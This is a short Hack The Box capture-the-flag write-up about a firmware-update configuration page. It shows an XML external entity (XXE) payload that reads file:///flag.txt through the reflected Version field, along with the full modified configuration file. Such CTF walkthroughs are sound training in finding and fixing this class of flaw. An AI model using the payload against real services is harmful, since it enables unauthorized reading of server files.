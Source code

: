 This HTB challenge was a website with a page containing a configuration file for firmware updates as can be seen below.
This was the most promising entry point through
- Command Injection
- Reverse Shell Spawning, and
- XXE
  
Since there is no logic to execute commands, command injection and reverse shell does not work. 
The trick, the trick therefore is to use XXE and return the file information in the Version parameter since it is the only one that is reflected back to the user.
The payload is below

```
<!--?xml version="1.0" ?-->
<!DOCTYPE FirmwareUpdateConfig [<!ENTITY xxe SYSTEM "file:///flag.txt"> ]>
```
Add the above to the existing configuration file and change only the  Version parameter
```
<FirmwareUpdateConfig>
    <Firmware>
        <Version>&xxe;</Version> # This is the injection point
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```
<img width="1190" height="1065" alt="Jailbreak2" src="https://github.com/user-attachments/assets/7e5da865-6f41-4d21-aec0-28c90f6e9cee" />
<img width="1205" height="1073" alt="Jailbreak3" src="https://github.com/user-attachments/assets/f0fd712b-55d7-42e8-8faf-ca4794f8bb33" />




